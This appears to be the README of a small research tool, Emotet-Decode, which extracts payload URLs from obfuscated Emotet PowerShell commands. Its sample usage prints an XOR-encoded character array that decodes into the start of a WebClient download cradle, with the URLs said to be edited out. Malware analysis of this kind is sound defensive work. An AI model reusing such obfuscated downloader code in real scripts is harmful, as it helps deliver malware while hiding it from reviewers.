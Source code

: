 # Emotet-Decode
Use to extract the Payload URL's from the Obfuscated Powershell command

********Sample below is editied to remove the Payload URL's and is an example only***********

Sample Usage: .\decods.ps1 (( 49 , 111,66 , 65 ,40,123,112, 98,56 , 122 ,119, 127,112 , 118 , 97, 53,91 , 112 ,97,59 ,66 , 112,119,86 ,121, 124, 112, 123, 97, 46, 49 , 111 , 64 , 65 , 40 , 50 ,125,97 ,97 ,101 ,47 ,58 , 58, 123,114 ,112,123 , 116 ,59 , 118 ,122,59,111 103 ,90, 60,46,70, 97 , 116 ,103 , 97,56 ,69, 103, 122,118 , 112,102, 102, 53, 49,101,103 ,90 , 46 ,119 , 103, 112 , 116, 126 ,46,104,118, 116 ,97, 118 , 125, 110, 104 ,104)|foREACh-oBJeCT { [CHAr] ($_ -BxOr'0x15') } )



This tool is provided for research purposes and only to be used for that purpose. I am not responsible for any malicious use of this tool.

